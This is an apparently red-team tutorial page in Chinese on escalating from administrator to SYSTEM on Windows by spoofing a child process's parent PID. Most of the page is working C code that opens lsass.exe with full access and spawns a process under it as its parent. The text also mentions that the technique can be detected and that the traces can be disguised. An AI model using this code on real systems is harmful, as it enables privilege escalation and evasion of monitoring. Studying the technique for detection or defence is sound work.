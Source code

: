 ```yaml
---
description: PPID-Priv
---
```


# 通过伪装PPID提权到SYSTEM

## 简介

在指定父进程句柄的时候,子进程同时也会继承父进程的权限，这样的话我们也可以通过伪装PPID的方式进行提权，但是这样的技术会有一个较大的缺陷，如果使用process explorer等进程监控软件查看的话会显示在系统权限的进程下派生出了一个子进程，这样会有较大的特征,更容易会被发现，当然也可以通过其他技术手段进行为伪装。

ps:需要管理员权限

## 代码实现

```text
        STARTUPINFOEX sie = { sizeof(sie) };
        PROCESS_INFORMATION pi;
        SIZE_T cbAttributeListSize = 0;
        PPROC_THREAD_ATTRIBUTE_LIST pAttributeList = NULL;
        HANDLE hParentProcess = NULL;
        DWORD dwPid = 0;

        dwPid = FindProcessPID(L"lsass.exe");

            InitializeProcThreadAttributeList(NULL, 1, 0, &cbAttributeListSize);
            pAttributeList = (PPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, cbAttributeListSize);
            InitializeProcThreadAttributeList(pAttributeList, 1, 0, &cbAttributeListSize);
            hParentProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPid);
            UpdateProcThreadAttribute(pAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParentProcess, sizeof(HANDLE), NULL, NULL);

            sie.lpAttributeList = pAttributeList;
            CreateProcessA(NULL, (LPSTR)"notepad", NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, (LPSTARTUPINFOA)&sie.StartupInfo, &pi);

            DeleteProcThreadAttributeList(pAttributeList);
            CloseHandle(hParentProcess);
```

![](../.gitbook/assets/image%20%2843%29.png)

## LINKS

{% embed url="https://docs.microsoft.com/zh-cn/windows/win32/api" %}



